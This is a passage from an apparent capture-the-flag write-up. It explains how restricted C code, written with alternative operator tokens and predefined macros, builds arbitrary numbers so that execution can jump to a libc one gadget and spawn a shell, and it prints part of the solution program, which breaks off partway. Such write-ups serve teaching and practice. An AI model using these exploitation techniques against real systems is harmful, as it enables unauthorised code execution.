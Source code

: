 ```c
```

From here, arbitrary numbers can be built by just using `or_eq` (or `xor_eq`) to build up the number's bits. e.g.:

```c
    // x = 0x4141414142424242
    // = 2^62 + 2^56 + 2^54
    // + 2^48 + 2^46 + 2^40
    // + 2^38 + 2^32 + 2^30
    // + 2^25 + 2^22 + 2^17
    // + 2^14 + 2^9 + 2^6 + 2^1
    unsigned long x;
    x xor_eq x;
    x or_eq two_sixty_two;
    x or_eq two_fifty_six;
    x or_eq two_fifty_four;
    x or_eq two_forty_eight;
    x or_eq two_forty_six;
    x or_eq two_forty;
    x or_eq two_thirty_eight;
    x or_eq two_thirty_two;
    x or_eq two_thirty;
    x or_eq two_twenty_five;
    x or_eq two_twenty_two;
    x or_eq two_seventeen;
    x or_eq two_fourteen;
    x or_eq two_nine;
    x or_eq two_six;
    x or_eq two_one;
```

### Almost Winning

So we have numbers and we have a libc address. All we need to do at this point is perform the arithmetic and jump to the one gadget. Unfortunately this didn't work so well for us because we didn't find a way to clear the registers to satisfy the conditions needed for the one gadget to work. We also played around with just trying to call `system("/bin/sh");`, but also had the issue that we didn't find a way to get control over `$rdi`.

We ended up abandoning this idea in favour of our final approach, but it turns out this was the intended solution, except with the additional observation that you can use the `register` keyword to force variables to be stored in a register, which will help to make the one gadget's conditions satisfied. With this, our almost solution turns into an actual solution:

```cpp
int main() {
    unsigned long two_zero;
    two_zero xor_eq two_zero;
    two_zero or_eq __linux__;

    unsigned long two_one;
    two_one xor_eq two_one;
    two_one or_eq __pic__;

    unsigned long two_two;
    two_two xor_eq two_two;
    two_two or_eq two_one * two_one;

    unsigned long two_three;
    two_three xor_eq two_three;
    two_three or_eq two_two * two_one;

    unsigned long two_four;
    two_four xor_eq two_four;
    two_four or_eq two_three * two_one;
```